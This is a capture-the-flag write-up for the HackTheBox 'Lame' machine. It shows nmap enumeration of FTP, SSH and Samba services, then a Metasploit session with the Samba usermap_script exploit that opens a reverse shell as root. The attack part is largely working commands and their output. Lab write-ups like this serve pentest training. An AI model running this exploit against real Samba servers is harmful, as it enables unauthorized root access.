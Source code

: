 ### Introduction
HTB Lame is a starter level machine that can be easily exploited using metasploit and some googling. To exploit this box, you just need to know basic enumeration, linux services, and some googling

### Enumeration 
Using ```zenmap``` or doing ```nmap -sC -sV 10.10.10.3``` will reveal a few things:

- Ports 21, 22, 139, and 445 are open
- Port 21 has version vsftpd 2.3.4
- We are working with a linux system.

Port 20 and 21 are used for FTP. A [previous writeup](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Legacy) of mine explains what part 139 and 445 are used for. 

Here is the report from zenmap and nmap scan (both basically give the same info):
```
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to [ip]
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

### Exploitation 
From doing previous challenges, I know that open SMB is very vulnerable. From the nmap/zenmap reports, we know that the version of SMB is smbd ```3.0.20 - Debian``` Looking up exploits for this version I ran across this [exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script) with the metasploit module ```exploit/multi/samba/usermap_script```

Here's how I used metasploit:
```
msf > use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > 
msf exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3

msf exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on [IP]
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Wn1LBLehVMy92DIb;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Wn1LBLehVMy92DIb\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened ([IP] -> 10.10.10.3:43149) at 2019-02-14 09:11:37 -0500

whoami
root
pwd
/
```

The root flag can be found in: ```/root/root.txt```
The user flag can be found in: ```/home/makis/user.txt```

